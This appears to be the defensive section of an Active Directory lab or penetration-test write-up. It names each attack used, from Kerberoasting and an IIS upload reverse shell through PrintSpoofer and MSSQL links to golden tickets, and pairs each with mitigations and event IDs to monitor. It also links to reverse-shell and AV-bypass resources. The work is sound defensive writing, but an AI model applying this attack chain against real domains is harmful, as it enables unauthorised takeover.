## Kerberoasting
We cracked multiple hashes offline with **hashcat** this way and one of them was an admin. The main issue is the password quality. 

- Use passwords not found in known wordlists/breaches.
- Minimize unnecessary SPNs.
- Remove obsolete service accounts
- Prefer modern Kerberos encryption and eliminate legacy encryption.

Also monitor for **Kerberos service ticket requests (4769)**. 

**Wireshark**


**Wazuh**


## Passwords Stored in LDAP/AD Attributes
The first credentials we got was stored in a user's description. This is easily avoidable, just dont write your password in clear readable places, digitally or physically (Like on your desk).

- Remove discovered credentials
- Rotate any exposed passwords immediately.
- Use a password manager/secrets-management system.
- Monitor modifications to sensitive AD attributes.
- Security awareness for employees.

## IIS File Upload Reverse Shell
Very fun to exploit, hurts like hell when you are the victim. Keep in mind, not every file upload grants us code execution, but its best practice to make it secure and its easy to do so.

- Whitelist file extensions to be uplaoded.
- Validate MIME type **and** file content.
- Store uploads outside web-accessible/executable directories.
- Remove execute permissions from upload locations.
- Run IIS application pools with minimal privileges.

**Wireshark**


## PrintSpoofer / SeImpersonatePrivilege
File upload was the door, **SeImpersonatePrivilege** was the home owner. Without such privilege, we would not have been able to get admin privileges after we were in. How to prevent it? Simple, review and remove high privileges from unqualified users or services.

- Don't run applications/services as highly privileged accounts unnecessarily.
- Isolate vulnerable services.
- Monitor suspicious child processes from service processes.

**Wireshark**

This is how it looks when an attacker downloads their payload from their local device or unencrypted http website.

**Wazuh**




## MSSQL Trusted Links / Execute As
We gained access to MSSQL with a regular user, and ended up being admin. How? These two permissions. How to prevent? Use dedicated, minimally privileged service accounts and remove unnecessary links.
Also review the following: 

- Linked servers.
- `EXECUTE AS` permissions.
- SQL Agent privileges.
- SQL service accounts.
- Cross-server trust relationships.

## Cross-Domain Privilege Abuse
We started in the North domain and ended up in the root domain. With the right approach and chaining of existing misconfigurations and vulnerabilities, its achievable. 
To prevent it review the following:

- Domain trusts.
- SIDHistory.
- Cross-domain group memberships.
- Foreign security principals.
- ACLs containing principals from other domains.
- Delegation.
- Enterprise Admin/Domain Admin membership.
- Resource-based constrained delegation.

Any account with unreasonable high privileges or misconfigured ACLs can lead to not just access, but administrator.

## Golden Ticket / ExtraSIDs
A **golden ticket** is what allowed us to enter the root domain. It utilizes *krbtgt* to generate a ticket with your desired SID and username to get the easiest entry to the domain. Of course, a *krbtgt* is found after dumping secrets, so preventing the attacker from reaching that point is key so we dont have to face this.
Of course to prevent such attacks we need to:

- Protect privileged administrator accounts.
- Protect Domain Controllers.
- Monitor privileged access to domain controllers.
- Monitor abnormal Kerberos authentication.
- Audit SIDHistory and privileged group changes.

**Wireshark**
Authenticating WMI with forged golden ticket


**Wazuh**

Also look for **4624**, **4672** and Sysmon ID **3**.

# Conclusion
Active Directory attacks can be much more complex, more OPSEC, harder detection, stronger persistence and techniques that can be unique or unseen before. Understanding the fundamentals of how the environment works, authentication, kerberos, certificates and other configurations enhances your way into attacking and/or defending and improving vulnerabilities in AD environments.

# Resources
- **Zeyad Azima**: <https://zeyadazima.com/>
- **FadyMoheb**: <https://fadymoheb.com/notes/Penetration-Testing/Network/Active-Directory/>
- **HackTricks**: <https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html>
- **The Hacker Recipes**: <https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden>
- **Darknet**: <https://www.darknet.org.uk>
- **ADSecurity**: <https://adsecurity.org/>
- **Reverse Shell Generator**: <https://www.revshells.com/>
- **AV Bypass**: <https://powersploit.readthedocs.io/en/latest/#antivirusbypass>
- **Discovery Commands**: <https://www.servicenow.com/docs/r/it-operations-management/discovery/powershell-cmdlets-run-by-discovery.html>
- **AD Detection Methodology**: <https://www.cyber.gov.au/business-government/detecting-responding-to-threats/detecting-and-mitigating-active-directory-compromises>

